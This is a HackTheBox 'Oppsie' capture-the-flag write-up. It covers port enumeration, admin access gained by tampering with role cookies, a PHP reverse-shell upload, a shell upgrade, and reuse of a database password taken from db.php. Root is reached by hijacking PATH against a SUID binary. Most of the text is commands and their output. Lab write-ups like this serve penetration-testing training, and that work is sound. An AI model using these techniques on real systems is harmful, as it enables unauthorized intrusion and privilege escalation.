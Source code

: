# HACKTHEBOX - Oppsie

## Enumeration:
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP --greppable # [22,80]

sudo nmap -v -sV -sC -p 22,80 -o nmap.txt $IP # sudo for SYN Stealth Scan
```

**nmap results**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Working with port 80:

Main page is a boring web template, nothing much to inspect. Let's brute-forcing web directory:
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
# /server-status --> 403 Forbidden
# /uploads --> 403 Forbidden
```

**Boring exploit to gain admin access**:

Duh!! try using crawler from Burp-Suite to build Site-Map(listening all traffic to build a map), found: `/cdn-cgi/login/`

Login as guest --> uploads --> This action require super admin 

Login as guest --> account --> ?content=accounts&id=2 is [2233]guest--> ?content=accounts&id=1 is [34322]admin

Change cookies from user=2233 && role=guest to user=34322 && role=admin --> *ADMIN HERE!!*

## Remote Control Execution
Upload `php-reverse-shell.php` --> trigger by `/uploads/php-reverse-shell.php` --> *reverse shell here!!*

Oldy upgrade normal shell to interactive shell!!
```bash
which python3 # yes
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + z
stty -raw echo; fg
export TERM=xterm-256color
stty rows 40 columns 173
export SHELL=bash
```
## Privilege Escalation
From `/var/www/html/cdn-cgi/login/db.php`:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Sweet, let's switch to `robert` account, `www-data` is lowest and boring privileges to messing around!!
```bash
su robert
# Password: M3g4C0rpUs3r!
```
From `/home/robert/user.txt`:

**user flag**: `HTB{f2c74ee8db7983851ab2a96a44eXXXXX}` 

**Find executable file bugtracker group**: `find / -group bugtracker -type f 2>/dev/null` --> `/usr/bin/bugtracker`

This also can be done by finding SUID file: `-perm u=s`

`/usr/bin/bugtracker` is SUID(set owner user id) by root(executed under privileges of root)
```bash
/usr/bin/bugtracker
# Enter bug ID: 1000 --> error --> cat: /root/reports/10000 --> the executable being called in an insecure manner(not being called full path)

# Ok, let's manipulate $PATH variable to gain root access!
cd /tmp
echo "/bin/bash" > cat # spawn bash shell
export PATH=/tmp:$PATH
/usr/bin/bugtracker # Enter bug ID: 0
whoami # root
```

From `/root/root.txt`:

**root flag**: `HTB{af13b0bee69f8a877c3faf667f7XXXXX}`
